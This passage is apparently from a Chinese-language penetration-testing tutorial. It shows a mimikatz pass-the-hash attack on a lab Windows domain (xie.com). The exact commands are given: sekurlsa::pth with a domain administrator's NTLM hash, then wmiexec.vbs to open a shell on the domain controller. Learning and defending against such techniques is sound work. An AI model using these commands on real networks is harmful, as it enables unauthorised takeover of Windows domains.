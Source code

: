 **Windows Server 2008** 

本地管理员：

*   administrator
    
*   xie
    

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRUFP3QeN4fC9dJ8icWTHhfuJnyJVdkJMQbDRL9W8iaVwaJfD0ZwLn02CQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRghHvAcQtNuZeEyqg2fYZdOEpU1VuC4dwhxv085ptnJuubORbgH8jNg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**mimikatz 进行哈希传递攻击 PtH(域)**

在域环境中，当我们获得了 域管理员组内用户 的 NTLM 哈希值，我们可以使用域内的一台主机用 mimikatz 对域内任何一台机器 (包括域控) 进行哈希传递攻击。执行完命令后，会弹出 CMD 窗口，在弹出的 CMD 窗口我们可以访问域内任何一台机器。前提是我们必须拥有域内任意一台主机的本地管理员权限和域管理员的密码 NTLM 哈希值。

*   域：xie.com
    
*   域控：WIN2008.xie.com
    
*   普通域主机：WIN2003
    
*   域管理员：test
    
*   域普通用户：hack
    

```
privilege::debug    #先提权

#使用域管理员test的NTLM哈希值对域控进行哈希传递攻击,域用户test在域管理员组中
sekurlsa::pth  /user:test  /domain:xie.com  /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRlKcFBdEeVXoQ3jG3TibMicZDLSGsdc2lNw1kicS1qQW4plLbudAfr9BWg/640?wx_fmt=png)

  

在弹出的 cmd 窗口中，使用 wmiexec.vbs 进行验证

```
cscript wmiexec.vbs /shell Win2008
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR0ico3uWHgG8vwiaDWESib3PXoSiaibQrznh3icw6ddI75UnXrX6aZ7lZMezA/640?wx_fmt=png)

  

只有域管理员的 NTLM 哈希值才可以进行哈希传递攻击，域普通用户的 NTLM 哈希值无法进行哈希传递攻击

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRrl5j60CiaIQgxQF31PML3ybdlE1T4ZCcPlbibdV5o23NH3CByZEuibNcg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)
